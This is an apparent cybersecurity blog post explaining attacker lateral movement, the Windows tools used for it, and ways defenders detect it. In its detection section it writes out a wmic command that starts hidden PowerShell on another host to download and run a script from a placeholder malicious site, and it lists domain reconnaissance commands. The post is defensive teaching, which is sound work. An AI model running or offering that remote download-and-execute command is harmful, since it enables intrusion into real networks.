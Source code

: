 ```yaml
---
title: "Lateral Movement"
date: 2025-05-02
tags: ["malware", "strategy", "cybersecurity"]
---
```


Once a hacker has gained access to a system through their path of choice, the next usual step is to try and gain access to other—usually more high-profile machines on the network. This process is known as **lateral movement**, and it can be done in a variety of ways. To be more specific about *why* hackers do this, let’s talk about the advantages of gaining access to other machines.

### Why?

- Gain access to more privileged accounts  
- Reach valuable data (like on a file server)  
- Spread persistence across the network (creating re-entry points or backdoors)  

Having skill in lateral movement is arguably one of the most important things for a hacker. It’s their ability to *move* through the environment once they get in, and it must be done with precision and stealth. It’s also where many attackers get caught, since they can leave plenty of breadcrumbs along the way.

Sometimes they’ll just get into a system and monitor common processes and behaviors for a while. This helps them build a plan for how best to navigate the network undetected. Usually, they’ll use techniques like LotL (Living off the Land)—[which I wrote about here](../living-off-the-land-attack/)—to stay hidden.

### How?

Hackers usually use LOLBins to evade detection. Some of the tools are as follows:

- **PsExec**  
A remote command execution tool in SysInternals. Often used to run or spawn shells on other machines.

- **WMI (`wmic`)**  
Used to query remote systems or start processes across the network.

- **RDP**  
Used to log in like a real user, assuming credentials have been found or stolen.

- **WinRM**  
Remote PowerShell execution used in enterprise environments.

### Detection

Detecting lateral movement is tricky because it uses legitimate, trusted tools and real credentials. However, defenders can look for patterns that suggest something suspicious is happening under the surface.

---

#### 1. Unusual Parent-Child Process Relationships

When a hacker is on a machine, they may be using LOLBins, but the **way** those tools are used can give them away. One way defenders detect this is by looking at **which process started another**—also known as parent-child process relationships.

Let’s say we see this process chain in a system:
```
winword.exe → cmd.exe → powershell.exe → wmic.exe
```
- `winword.exe → cmd.exe` implies there was likely a macro embedded in a Word document (probably from a phishing email).
- That macro launches `cmd.exe`, which runs `powershell.exe`.
- PowerShell can then download a payload, and finally `wmic.exe` is used for the **lateral movement**.

Here’s an example command that might be executed via `wmic.exe`:
```
wmic /node:"10.0.0.12" process call create "powershell -NoP -W Hidden -C IEX(New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')"
```
- `/node:"10.0.0.12"` → Targets another machine on the network.  
- `process call create` → Asks that machine to run a new process.  
- `"powershell -NoP -W Hidden -C IEX(...)"` → Starts a hidden PowerShell instance that:  
  - `-NoP`: No profile (faster, stealthier)  
  - `-W Hidden`: Hides the PowerShell window  
  - `IEX(...)`: Downloads and runs a malicious PowerShell script in memory  

---

#### 2. New or Rare Use of Lateral Tools

Tools like `PsExec`, `wmic`, `winrm`, and PowerShell remoting are normally used by system admins—but only in certain environments and contexts. Defenders might set up alerts for their use in unexpected locations, or flag activity that doesn’t match the usual user behavior. Sudden or anomalous use of these tools is a red flag that lateral movement could be underway.

---

#### 3. Login Anomalies

Things like **multiple login attempts**, **a low-privilege user suddenly logging into many machines**, or **remote logins at odd hours** (e.g., an HR employee remoting in at 3 AM) are classic indicators of lateral movement.

---

#### 4. Suspicious Recon Activity

These commands are often used to **map the network** and **identify valuable targets**:
```
net view /domain
net use
net group "Domain Admins" /domain
```
They aren’t commands a normal user would ever run, and they often precede lateral movement.

---